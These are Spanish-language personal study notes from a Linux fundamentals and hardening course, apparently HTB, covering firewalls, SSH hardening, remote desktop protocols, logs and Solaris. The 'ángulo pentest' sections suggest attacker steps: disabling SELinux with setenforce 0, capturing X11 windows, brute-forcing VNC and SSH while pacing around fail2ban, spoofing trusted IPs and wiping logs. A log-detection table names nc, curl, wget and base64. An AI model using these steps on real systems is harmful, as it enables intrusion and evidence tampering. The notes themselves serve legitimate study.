|`lsof`|qué archivos/sockets tiene abierto cada proceso|
|**ELK** (Elasticsearch + Logstash + Kibana)|stack empresarial: recolecta, procesa y visualiza logs|
|Wireshark / tshark / tcpdump|captura y análisis de tráfico (módulo aparte: Intro to Network Traffic Analysis)|

#### D. Troubleshooting (la lista de siempre)

```bash
ping <host>            # ¿hay camino? (ICMP; ttl me dice saltos)
traceroute <host>      # por dónde pasa: cada línea = un hop, 3 tiempos por hop
netstat -a             # conexiones activas y puertos en LISTEN
```

**Leyendo traceroute:** `* * *` en un hop = ese equipo no respondió (bloquea ICMP, está caído, o filtra) — **no necesariamente está roto el camino**; sigue el tráfico igual. Ejemplo del módulo: hop 2 en silencio, hop 4 responde → seguimos adelante.

**Problemas más comunes en pentest (del módulo):**

1. Conectividad 2. Resolución DNS — _"it's always DNS"_ 3. Pérdida de paquetes 4. Performance **Causas típicas:** firewalls/routers mal configurados, cables, settings de red, hardware, DNS mal puesto, congestión, firmware sin parchear.

#### E. Hardening: SELinux vs AppArmor vs TCP Wrappers

||SELinux|AppArmor|TCP Wrappers|
|---|---|---|---|
|Tipo|MAC en el **kernel**|MAC vía **LSM** (kernel module)|Control de acceso **por IP**|
|Modelo|Políticas granulares por proceso/archivo|**Perfiles por aplicación**|hosts.allow / hosts.deny|
|Dificultad|Complejo|Sencillo|Muy simple|
|Default en|RHEL/CentOS/Fedora|Ubuntu/Debian/**Kali**|muchos servicios|
|Alcance|Recursos del sistema completos|Lo que el perfil de la app toca|Solo acceso de red a servicios|

**Puntos finos del módulo:**

- SELinux y AppArmor son AMBOS MAC, pero: SELinux integrado al kernel con control finísimo (y dolor de cabeza); AppArmor más manejable día a día
- TCP wrappers: el servicio intercepta la conexión y la compara contra la lista allow/deny de IPs — protección de red básica y nada más (no toca recursos locales)
- Los tres vienen en la mayoría de distros y se configuran con herramientas estándar

#### F. Angulo del pentest 

- **Captura de credenciales:** monitoreando tráfico, un login por conexión NO cifrada (FTP, Telnet, HTTP plano) = credenciales en claro para mí (ya lo viví: telnet de Meow manda todo en texto plano)
- **MAC evasion:** SELinux/AppArmor limitan lo que un proceso comprometido puede hacer → la diferencia entre "shell" y "shell que lee /etc/shadow". Comandos de reconocimiento: `getenforce` (¿SELinux enforcing?), `aa-status` (perfiles AppArmor activos)
- Clásico de CTF/writeups: "el exploit funciona pero SELinux lo bloquea" → `setenforce 0` (si tienes root) o bypass del perfil
- TCP wrappers: ver `cat /etc/hosts.allow /etc/hosts.deny` en recon — puede explicar por qué un puerto "abierto" no te deja entrar desde tu IP


### Remote Desktop Protocols in Linux 

#### Los dos protocolos grandes

| Protocolo | Mundo típico | Puerto | Notas |
|---|---|---|---|
| **RDP** | Windows | 3389 | gráfico, como estar frente al equipo |
| **VNC** | Linux (multiplataforma) | 5900+ | protocolo RFB; un puerto por display: 5900=display :0, 5901=:1... |

#### X11 / XServer (la tercera vía, la que ya usé sin saberlo)

- X11 = el sistema gráfico de Unix; el **XServer** es la parte que dibuja. Network transparent: las apps pueden correr en una máquina y dibujarse en otra
- **Clave conceptual:** VNC/RDP renderizan el escritorio en el SERVIDOR remoto y mandan imágenes por red. **X11 renderiza en tu MÁQUINA LOCAL** — la app remota solo manda las órdenes de dibujo → menos tráfico y carga
- Puertos: TCP **6000-6009** (6000 = display :0, 6001 = :1...)
- **Vulnerabilidad por defecto: TODO SIN CIFRAR.** Un atacante en la misma red puede **leer el contenido de tus ventanas sin sniffing tradicional** — con tools estándar:
  - `xwd` → screenshots de ventanas X
  - `xgrabsc` → captura de pantalla
- CVEs históricos XOrg: **CVE-2017-2624/2625/2626** (session keys débiles/predecibles → código arbitrario en la sesión de otro usuario)
- **Mitigación estándar:** tunelizar por SSH:
  - Servidor: `X11Forwarding yes` en `/etc/ssh/sshd_config`
  - Cliente: `ssh -X usuario@host /usr/bin/firefox` → la app remota aparece en TU pantalla, cifrada por el túnel

#### XDMCP — el que NO debo usar

- X Display Manager Control Protocol: gestiona sesiones X remotas vía **UDP 177**
- Redirige una GUI entera (KDE/Gnome) a un cliente
- **Inseguro por diseño** → MITM trivial: el atacante se interpone entre cliente y servidor X, se hace pasar por una parte y ejecuta comandos/lee datos
- Regla: nunca en entornos que requieran seguridad

#### VNC en la práctica (montar servidor TigerVNC)

```bash
# 1. Instalar (XFCE porque GNOME por VNC es inestable)
sudo apt install xfce4 xfce4-goodies tigervnc-standalone-server -y
vncpasswd                       # password de 8 chars max (límite del protocolo)

# 2. Config en ~/.vnc/
#    xstartup → qué escritorio abre la sesión (startxfce4)
#    config    → geometry=1920x1080, dpi=96
chmod +x ~/.vnc/xstartup

# 3. Arrancar y administrar
vncserver                       # crea display :1 → puerto 5901
vncserver -list                 # muestra display + puerto + PID
vncserver -kill :1              # matar sesión
```

- Dos conceptos de servidor VNC: el que ofrece **la pantalla real** del host (uso en soporte) vs **sesiones virtuales** por usuario (concepto terminal server)
    
- Implementaciones: TigerVNC, TightVNC, RealVNC, UltraVNC (RealVNC/UltraVNC destacan por cifrado)
    
- **Contraseñas VNC:** el límite de 8 caracteres es del protocolo — débil por herencia
    

#### El patrón de oro: VNC por túnel SSH

```bash
# 1. Túnel (mi 5901 local → su 5901, localhost)
ssh -L 5901:127.0.0.1:5901 -N -f -l htb-student 10.129.14.130

# 2. Conectar por el túnel
xtightvncviewer localhost:5901
```

`-L` = port forwarding local · `-N` = no shell · `-f` = background. El detalle de pivoting/tunneling se profundiza en su módulo aparte.

#### Conexiones con mi historial + ángulo pentest

- **Mi Pwnbox** = exactamente este stack: Xtigervnc (localhost:5901, invisible desde afuera) + nginx reenviando el HTTP → ese "port forwarding en el menú de HTB" del capítulo 1 era ESTO formalizado
- **Recon:** ver 6000-6009 abiertos en un target Linux = X11 expuesto = leer sus ventanas (`xwd`), potencial sesión completa
- **Recon:** 5900+ = VNC → fuerza bruta de esa contraseña de 8 chars es viable
- **Recon:** UDP 177 = XDMCP = protocolo viejo e inseguro = red flag en auditoría
- Como defensa: VNC solo por túnel SSH, nunca expuesto; X11Forwarding solo para lo necesario

> Patrón que se repite toda la sección: **protocolo gráfico remoto + cifrado por defecto = NO**. Todos (X11, XDMCP, VNC plano) mandan datos sensibles en claro o con crypto débil → la respuesta universal es el túnel SSH. Mismo principio que mi FTP manual de hace semanas: los protocolos viejos se domestican con SSH.

## 6. Linux hardening

### Linux Security 

Por naturaleza, todos los sistemas tienen un riesgo inherente de intrusión; algunos presentan más riesgo que otros (un servidor web expuesto a Internet con varias apps es más jugoso que una laptop). Linux es menos propenso a virus que afectan Windows y presenta una superficie de ataque menor que los hosts unidos a un dominio Active Directory

#### 1. El fundamento #1: mantener todo actualizado

```bash
sudo apt update && sudo apt dist-upgrade
```
- `update` = refresca la lista de paquetes disponibles (no instala nada)
- `dist-upgrade` = actualiza TODO lo instalado, incluidos cambios de dependencias mayores
- **Dato clave :** algunos kernels **no se actualizan solos** — hay admins que corren `apt upgrade` por años sin notar que el kernel sigue viejo (¡y el kernel viejo = exploits públicos conocidos = privesc gratis!), por eso algo tan simple como mantener el sistema actualizado puede mantenerlo seguro.

#### 2. Firewall

Si el firewall de red (el del router/perímetro) no está bien, el propio Linux puede filtrar tráfico con:
- **iptables** (la herramienta clásica de reglas de firewall)
- o frontends como **ufw** (Ubuntu) — que ya conozco de mi Xubuntu

#### 3. Endurecer SSH (el servicio más atacado del planeta)

Dos reglas de oro en `/etc/ssh/sshd_config`:

```plain
PasswordAuthentication no     # solo llaves, nada de passwords bruteforceables
PermitRootLogin no            # root jamás entra directo por SSH
```

- El patrón completo: entrar como usuario normal + `sudo` para lo administrativo. **No administrar como root** es principio básico
- **Principio de menor privilegio:** si un usuario necesita correr UN comando como root, ese comando va específico en la config de sudoers — NO se le dan derechos sudo completos. (El archivo es `/etc/sudoers`, editado con `visudo` — nunca a mano, un error ahí te deja sin root)
    
#### 4. fail2ban — el guardián contra fuerza bruta

- Cuenta los intentos fallidos de login; al llegar al máximo configurado, **bloquea la IP atacante** (por ejemplo baneándola con iptables o TCP wrappers)
- Es la defensa estándar contra brute force de SSH/FTP
- **Conexión pentest:** cuando en HTB haces fuerza bruta de SSH y de repente "connection refused" o timeouts... es fail2ban (o un admin) baneándote. Por eso los bruteforce reales van con ritmo y wordlists inteligentes, no a martillazos
    

#### 5. Auditoría periódica (esto ES tu checklist de pentest)

El modulo nos llama a  auditar periódicamente buscando vectores de **escalada de privilegios**:

- kernel desactualizado → `uname -r` + buscar CVEs
- problemas de permisos de usuarios
- **archivos world-writable** (cualquiera los edita)
- **cron jobs mal configurados** (¡mi sección anterior! el patrón de HTB)
- servicios mal configurados
- **SUID/SGID no deseados** (¡ Permission Management!)
    
Como pentester esta lista la recorres AL REVÉS en cada máquina: kernel → permisos → cron → servicios → SUID. Es literalmente el capítulo 4 de este módulo aplicado ofensivamente.

#### 6. SELinux / AppArmor (el recordatorio)

- Módulo de seguridad del kernel con políticas de control de acceso (MAC — del capítulo de NAC)
- SELinux: cada proceso/archivo/objeto lleva una **etiqueta**; reglas de política controlan quién accede a qué, **enforceadas por el kernel**. Control granular hasta "quién puede append a este archivo o moverlo"
- AppArmor: mismo objetivo, más simple (perfiles por app)
- Como pentester: `getenforce` / `aa-status` para ver si están activos — cambian lo que tus exploits pueden hacer

#### 7. Herramientas de seguridad mencionadas

|Tool|Para qué|
|---|---|
|**Snort**|IDS/IPS: detecta ataques en el tráfico de red (reglas tipo "esto parece un exploit X")|
|**chkrootkit**|busca rootkits conocidos en el sistema|
|**rkhunter**|idem, otra herramienta del mismo tipo|
|**Lynis**|auditoría completa: escanea el sistema y reporta hardening faltante (checks automatizados de TODO lo de esta lista)|

#### 8. El checklist de hardening (cada ítem explicado)

1. **Quitar/deshabilitar servicios y software innecesarios** — cada servicio escuchando es una puerta posible. `systemctl list-units --type=service` y purgar lo que no sirve
2. **Eliminar servicios con autenticación sin cifrar** — Telnet, FTP plano, HTTP para login... (¡exactamente lo que yo exploté en Meow! Telnet con root vacío era DOS fallas de esta lista a la vez)
3. **NTP activo** (reloj sincronizado = logs correlables) **y Syslog corriendo** (sin logs no hay detección ni forense)
4. **Una cuenta por usuario** (no cuentas compartidas: nada de auditoría quién hizo qué)
5. **Contraseñas fuertes** forzadas
6. **Password aging** (expiración) y bloqueo de reuso de contraseñas viejas
7. **Bloquear cuentas tras fallos de login** (fail2ban / pam_tally)
8. **Desactivar binarios SUID/SGID no necesarios** — cada SUID es un "mini root potencial" (GTFObins). Auditar con mi `find -perm -4000`

> Cierre del módulo: _"la seguridad no es un producto, es un proceso"_. La lista nunca está completa; depende de qué tan bien el admin conozca SU sistema.

#### 9. TCP Wrappers — explicado completo (lo más práctico de la sección)

**Que es?:** Podemos definirlo como un mecanismo de seguridad del propio Linux que controla **qué servicios aceptan conexiones desde qué IPs/dominios**, sin firewall. Cuando un cliente intenta conectar a un servicio, el sistema consulta primero las reglas de TCP wrappers: si la IP coincide con lo permitido → acceso; si no → conexión denegada.

**Los dos archivos:**

- `/etc/hosts.allow` → qué servicios+hosts tienen permitido el acceso
- `/etc/hosts.deny` → qué servicios+hosts están denegados

**Sintaxis:** `servicio : host(s)` donde:

- servicio = nombre del daemon (`sshd`, `ftpd`, `telnetd`, o `ALL` para todos)
- host = IP exacta, rango en CIDR, o dominio empezando con `.` (`.inlanefreight.local` = cualquier host de ese dominio)

```bash
# hosts.allow — permitir
sshd : 10.129.14.0/24          # SSH solo desde esa red
ftpd : 10.129.14.10            # FTP solo desde ese host
telnetd : .inlanefreight.local # Telnet desde ese dominio

# hosts.deny — denegar
ALL : .inlanefreight.com       # TODO bloqueado desde ese dominio
sshd : 10.129.22.22            # ese host, sin SSH
ftpd : 10.129.22.0/24          # esa red, sin FTP
```

**Reglas de comportamiento (IMPORTANTES):**

- **Orden importa:** se aplica la PRIMERA regla que coincide (como las reglas de firewall, de arriba hacia abajo)
    
- **NO reemplaza un firewall:** solo controla acceso a SERVICIOS, no a puertos en general. Es una capa extra, básica
    

#### Ángulo pentest (resumen de la sección entera leída ofensivamente)

|El admin DEBE...|El pentester BUSCA...|
|---|---|
|Parchear kernel|`uname -r` viejo → exploit público|
|Desactivar SUID|`find -perm -4000` → GTFObins|
|Auditar cron|`ls /etc/cron*` → cron de root ejecutando script editable|
|Endurecer SSH|PasswordAuth sí activo → hydra|
|fail2ban|no siempre instalado → fuerza bruta tranquila|
|TCP wrappers|`cat hosts.allow/deny` → IPs confiables que puedo suplantar/spoofear|
|Servicios innecesarios apagados|`ss -tulnp` → todo lo que SÍ está abierto es superficie|

> El hardening es como cerrar puertas y ventanas detu casa, y pues yo diria que no existe "casa imposible de robar" sino que simplemente existe "casa que no vale la pena robar". El objetivo no es invulnerable porque es imposible sino mas bien es que sea más caro atacarte que lo que ganan robandote.

### Firewall setup

El principal proposito de un **firewall**  es proveer un mecanismo de seguridad, controlar y monitorear el trafico de la red en distintos segmentos, filtrando por reglas, protocolos y puertos. Linux lo trae integrado vía **Netfilter**: un framework de *hooks* dentro del **kernel** que intercepta y puede modificar cada paquete que pasa. La herramienta para programar esas reglas es iptables (Netfilter es el motor, iptables el volante).

**Historia rápida:** `ipfwadm` → `ipchains` → **iptables** (kernel 2.4, año 2000) → hoy coexisten con reemplazos modernos.

#### Las alternativas modernas

| Herramienta | Qué es |
|---|---|
| **iptables** | el clásico, de facto estándar 20+ años |
| **nftables** | reemplazo moderno: mejor performance, sintaxis nueva (NO compatible con iptables — migrar = reescribir) |
| **ufw** | front-end simple (la "U" = Uncomplicated). Es lo que usé en mi Xubuntu: `ufw default deny incoming; ufw enable`. Debajo sigue siendo iptables/nftables |
| **firewalld** | firewall dinámico con **zonas** y servicios predefinidos (mundo RHEL/Fedora) |

#### Los 5 componentes del modelo

1. **Tables** → organizan reglas según el tipo de trabajo
2. **Chains** → grupos de reglas aplicadas a un flujo concreto de tráfico
3. **Rules** → criterios (matches) + acción (target)
4. **Matches** → qué características del paquete evaluar (IP, puerto, protocolo, estado...)
5. **Targets** → qué hacer con los paquetes que coinciden

#### Las tablas y sus cadenas

| Tabla | Para qué | Cadenas built-in |
|---|---|---|
| **filter** | filtrar tráfico (la del día a día) | INPUT, OUTPUT, FORWARD |
| **nat** | modificar IP origen/destino (NAT) | PREROUTING, POSTROUTING |
| **mangle** | modificar campos del header | las 5 |
| **raw** | opciones especiales de procesamiento | PREROUTING, OUTPUT |

**Traducción de las cadenas clave (filtro):**
- **INPUT** → paquetes que ENTRAN a esta máquina
- **OUTPUT** → paquetes que SALEN de esta máquina
- **FORWARD** → paquetes que ATRAVIESAN la máquina (si actúa de router)
- **PREROUTING** → antes de decidir ruta (mangle destino)
- **POSTROUTING** → después de decidir ruta (mangle origen)

**Cadenas definidas por el usuario:** se crean para agrupar reglas (ej: "todas las reglas de mis web servers", "todo el tráfico al puerto 80") → se saltan a ellas desde las built-in. Orden y mantenimiento más limpios.

#### Targets (las acciones)

| Target | Qué hace |
|---|---|
| **ACCEPT** | deja pasar el paquete |
| **DROP** | lo tira **en silencio** — el emisor no sabe nada, espera hasta timeout |
| **REJECT** | lo tira **avisando** — responde con error (RST/ICMP), el emisor sabe que hay algo ahí |
| **LOG** | registra el paquete en el log del sistema |
| **SNAT / DNAT** | cambia IP origen/destino (NAT: privada→pública / reenvío) |
| **MASQUERADE** | SNAT para IP dinámica (cuando tu IP pública cambia) |
| **REDIRECT** | redirige a otro puerto/IP |
| **MARK** | marca el paquete para routing avanzado |

** DROP vs REJECT es decisión de seguridad, no técnica:** DROP hace que tu host parezca *muerto/inexistente* al escanear (stealth); REJECT confirma que hay un host vivo con firewall. Postura paranóica = default DROP.

#### Matches (los criterios)

| Match | Criterio |
|---|---|
| `-p` / `--protocol` | protocolo (tcp, udp, icmp) |
| `--dport` / `--sport` | puerto destino / origen |
| `-s` / `-d` | IP origen / destino |
| `-m state` | estado de conexión (NEW, ESTABLISHED, RELATED) |
| `-m conntrack` | tracking de conexión (el moderno) |
| `-m multiport` | varios puertos a la vez |
| `-m string` | el paquete CONTIENE cierto string (filtrado de contenido) |
| `-m limit` | rate limiting (anti-DoS básico) |
| `-m mac` | por MAC address |
| `-m iprange` | por rango de IPs |

#### Anatomía de una regla (desglosada letra por letra)

```bash
sudo iptables -A INPUT -p tcp --dport 22 -j ACCEPT
``` 

- `A INPUT` : **A**ppend a la cadena INPUT (también: `-I` insertar, `-D` borrar, `-F` vaciar)
- `-p tcp`  match: protocolo TCP
- `--dport 22` match: puerto destino 22
- `-j ACCEPT`: **j**ump al target ACCEPT

#### Lo que el módulo NO dice pero es fundamental (mi análisis)

1. **Las reglas se evalúan en orden, primera coincidencia gana** si una regla **`ACCEPT`** pasa antes que tu **`DROP`**, el **`ACCEPT`** ganó. El ordon lo es todo.
2. **Política por defecto:** si ninguna regla coincide, se aplica la política de la cadena (`iptables -P INPUT DROP` ¿esto que significa? significa que lo que no está explícitamente permitido, muere). La postura segura es **default DROP + ACCEPT explícitos**.
3. `iptables -L -n -v` → listar reglas actuales con contadores de paquetes (-n = números, no resolución DNS)

#### Ángulo pentest

- **En el host comprometido:** `iptables -L` me dice qué tráfico el admin INTENTA bloquear — y a veces encuentras reglas mal hechas (DROP en INPUT pero todo permitido en FORWARD, reglas duplicadas, default ACCEPT)
- **Fingerprinting:** ¿un puerto me responde REJECT o DROP? DROP es igual a un host cuidado/paranoico; REJECT implica un firewall presente pero hablador. Entonces cambiamos la estrategia de escaneo
- **Defensa activa en mis labs:** mi `ufw default deny` del portátil es exactamente esta postura aplicada
- NAT targets (DNAT/REDIRECT) = la base del port forwarding y del pivoting que veré en su módulo aparte (conecta con `ssh -L` de la sección VNC)


### System logs

Los `logs` del sistema en este caso en linux vendrian siendo una serie de archivos que contienen informacion acerca de el sistema y  las actividades que tienen o tuvieron accion dentro de el. Los logs son de suma importancia porque en ellos podemos monitorear y resolve problemas del sistema ya que estos nos proveen indicios del comportamiento, status y eventos de seguridad del sistema. Como pentesters considero que debemos leerlos de dos formas: 
1. como auditores (buscar lo sospechoso).
2. como atacantes (ver qué rastro dejamos y si algo detectó nuestras pruebas).


#### Los 5 tipos de logs y dónde viven

Existen 5 tipos de logs distintos cada uno con un proposito distinto pero todos sirven al mismo proposito asegurar la seguridad del sistema.

| Tipo | Archivo | Qué revela |
|---|---|---|
| **Kernel** | `/var/log/kern.log` | drivers, syscalls, crashes, hardware |
| **Sistema** | `/var/log/syslog` | servicios que arrancan/paran, reboots, eventos de sistema |
| **Autenticación** | `/var/log/auth.log` (Debian/Ubuntu) · `/var/log/secure` (RHEL/CentOS) | **LA joya**: logins exitosos y fallidos, sudo ejecutado, sesiones |
| **Aplicación** | `/var/log/apache2/error.log`, `/var/log/mysql/error.log`, etc. | errores y actividad de apps específicas |
| **Seguridad** | `/var/log/fail2ban.log`, `/var/log/ufw.log`, auditd | eventos de las herramientas de defensa |


**Locations de acceso por servicio (la tabla del módulo, para no googlearla jeje):**

| Servicio | Log de acceso |
|---|---|
| Apache | `/var/log/apache2/access.log` |
| Nginx | `/var/log/nginx/access.log` |
| OpenSSH | `/var/log/auth.log` (Ubuntu) · `/var/log/secure` (RHEL) |
| MySQL | `/var/log/mysql/mysql.log` |
| PostgreSQL | `/var/log/postgresql/postgresql-<versión>-main.log` |
| systemd | `/var/log/journal/` (binario — se lee con `journalctl`) |

#### Cómo se lee un auth.log

- Feb 28 18:15:01 sshd[5678]: Accepted publickey for admin from 10.14.15.2 
→ login OK por LLAVE (¿password? revisar si es lo esperado) 
- Feb 28 18:15:03 sudo: admin ... COMMAND=/bin/bash 
→ abrió shell como root con sudo: quién, cuándo, qué 
- Feb 28 18:15:05 sudo: admin ...  COMMAND=/usr/bin/apt-get install netcat-traditional 
→ PELIGRO instaló nc: clásico de post-explotación 
- Feb 28 18:15:12 kernel: firewall: unexpected traffic allowed on port 22 
→ el firewall registró algo anómalo (¿y nadie lo vio?) 
- Feb 28 18:15:18 systemd-logind: New session 4321 of user admin 
→ sesión nueva registrada (correlacionar con el login) 
- Feb 28 18:15:21 CRON: session opened for user root 
→ cron como root: normal en un admin... o persistencia (Task Scheduling)

**Los 3 patrones que gritan:**

| Patrón | Qué significa |
|---|---|
| `Failed password` ×N desde la misma IP | fuerza bruta en curso |
| `COMMAND=` con `nc` / `curl` / `wget` / `base64` | alguien trajo herramientas post-login |
| `session opened for user X` inesperado | credencial nueva robada, o abuso de una existente |

**Regla de correlación :** ninguna linea sola cuenta la historia. El auth.log  dice QUIÉN entró; el syslog  dice QUÉ pasó en el sistema; los timestamps los unen. Un incidente se reconstruye cruzando los tres, no leyendo uno solo.

#### El triángulo del pentester con logs

1. **Como atacante:** tras explotar, los logs son el ENEMIGO borrarlos es de manual básico pero *dejar rastro borrado* también lo es (`~/.bash_history`, auth.log, syslog). Y como defensa: logs enviados a un SIEM remoto = no los puedo borrar localmente
2. **Como auditor:** estos archivos son mi fuente #1 de "¿qué pasó aquí?" — reconstruyo la línea de tiempo de un ataque desde auth.log + syslog
3. **Como tester ético:** reviso los logs DESPUÉS de mi prueba para ver qué alertas generé → informo al cliente qué detectó su defensa (y qué no — ese "qué no" es parte del reporte)

#### Configuración sana de logs (el lado admin)

- Niveles de log apropiados (no todo en DEBUG ni todo en silencio)
- **Log rotation** — los logs crecen infinito; `logrotate` los rota/comprime/borra por política
- Protegerlos de acceso no autorizado + revisarlos REGULARMENTE (un log que nadie lee no sirve)
- Conexión con hardening anterior: sin NTP los timestamps no correlacionan entre máquinas = forense rota

#### Las herramientas ya las tengo

```bash
tail -f /var/log/auth.log          # seguir en vivo (el que más uso)
grep "Failed password" /var/log/auth.log | wc -l   # ¿cuántos intentos fallidos?
grep -E "(COMMAND=)" /var/log/auth.log             # auditoría de sudo
journalctl -u ssh --no-pager       # logs de servicio (del cap. de systemctl)
```

## 7. Distribuciones de linux VS solaris

### Solaris 

#### ¿Qué es?

- **UNIX certificado** (NO Linux): descendiente de System V UNIX, desarrollado por Sun Microsystems en los 90, hoy propiedad de **Oracle**
- Sistema **propietario/cerrado**: el código fuente no es público, no puede auditarse por la comunidad
- Diseñado para **alta disponibilidad, tolerancia a fallos y escalabilidad** — computo empresarial de misión crítica
- Sectores típicos: **banca, finanzas, gobierno**, grandes datacenters, cloud y virtualización
- Hardware histórico **SPARC** (RISC propio de Sun) e hipervisor incluido: Oracle VM Server for SPARC
- Estado actual: en declive, pero sigue vivo en infraestructura **legacy** que "no se toca porque funciona" — y eso significa: sin parches de hace años

#### Diferencias clave vs Linux

| Categoría | Linux (Ubuntu/Debian) | Solaris |
|---|---|---|
| Código | open source | **propietario, cerrado** |
| File system | ext4, XFS... (ZFS vía port) | **ZFS nativo** (su invento: compresión, snapshots, escalabilidad enorme) |
| Gestión de servicios | systemd | **SMF** (Service Management Facility) |
| Paquetes | apt/dpkg | **IPS** (Image Packaging System) / pkgadd |
| Seguridad | sudo + permisos clásicos | **RBAC nativo** (permisos granulares por rol) + MAC |
| Hardware | x86 y más | SPARC histórico + x86 |
| `/kernel` | no existe como tal | **existe**: módulos del kernel ahí |

#### Estructura de directorios (casi idéntica a Linux )

La tabla del módulo muestra el mismo árbol que  (`/ /bin /boot /dev /etc /home /lib /mnt /opt /proc /sbin /tmp /usr /var /lost+found`) con DOS diferencias notables:
- **`/kernel`** → módulos del kernel en directorio propio (en Linux viven en `/lib/modules`)
- **todo lo demás coincide** → la lección: el modelo mental FHS es universal en el mundo Unix

#### La tabla de equivalencias (el corazón práctico de la sección)

| Gesto | Linux | Solaris | Nota |
|---|---|---|---|
| Info del sistema | `uname -a` | `showrev -a` | showrev da MÁS: patch level, hardware provider, arquitectura |
| Instalar paquete | `sudo apt-get install X` | `pkgadd -d X` | **sin sudo**: RBAC da los permisos granulares (sudo llegó en Solaris 11) |
| Cambiar permisos | `chmod 700 file` | `chmod 700 file` | **igual** — mismo modelo rwx |
| Buscar SUID | `find / -perm 4000` | `find / -perm -4000` | ⚠️ **lleva guión** en Solaris — si no, no matchea igual |
| Compartir NFS | `/etc/exports` + exportfs | `share -F nfs -o rw /export/home` | persistente en **`/etc/dfs/dfstab`** |
| Montar NFS | `mount -t nfs srv:/share /mnt` | `mount -F nfs srv:/share /mnt` | **`-F` en vez de `-t`** |
| Files de un proceso | `lsof -c apache2` | `pfiles \`pgrep httpd\`` | mismo resultado |
| Trazar syscalls | `strace -p <pid>` | `truss <cmd>` | **truss es más potente**: traza SEÑALES y procesos HIJOS (strace no) |


## Lo que viví en la sesión (no está en el módulo, pero importa)

- `/etc/passwd` legible por todos: `usuario:x:UID:GID:desc:home:SHELL`
- el `x` = la pass real vive en `/etc/shadow` (cifrada, solo root)
- cuentas de servicio con `/usr/sbin/nologin`: existen para servicios, nadie loguea con ellas
- El mail de un usuario vive en `/var/mail/<usuario>` (del sistema, no del home) — y el archivo solo existe si llegó correo
- `cat root` en /var/mail → ****Permission denied****: los spools de mail son privados (Unix protegiendo datos)
- Errores que me enseñaron: cat en directorio ("Is a directory"), pegar la contraseña en el comando ssh en vez del prompt, `exit` no existe en netcat

### Batallas de hoy (2026-10-25) — errores que fueron lecciones
- **El** **`**127.0.0.53**`** **fantasma:** al contar "servicios escuchando en todas las interfaces" excluí solo `127.0.0.1` — y el DNS stub de systemd-resolved (`127.0.0.53%lo:53`) se coló en mi cuenta. 
- Lección: **filtrar por la definición** (loopback = `127.0.0.0/8` entero, `grep -v '127\.'`), no por el ejemplo que conocía.
- **`**ps**`** **vs** **`**ps aux**`** **:** busqué el usuario de ProFTPd con `ps -la` y solo veía mis procesos. Sin la `x` no ves daemons (no tienen TTY). `ps aux | grep X` = "¿quién corre proceso X y como quién?" → respuesta: `proftpd`, su propio usuario dedicado (buena práctica de drop privileges).
- **Estres con el 34:** contar los paths únicos de inlanefreight.com me tomó 5 intentos (10 → 20 → 35 → 34). Lo que fallaba cada vez era la __definición del set__: ¿cuentan hrefs completos o paths? ¿la raíz `/` es un path? (el grader dijo que no). Lección: cuando un grader te rechaza, volcar la lista intermedia (`sort -u > /tmp/x.txt`) y auditarla línea por línea es más rápido que googlear.

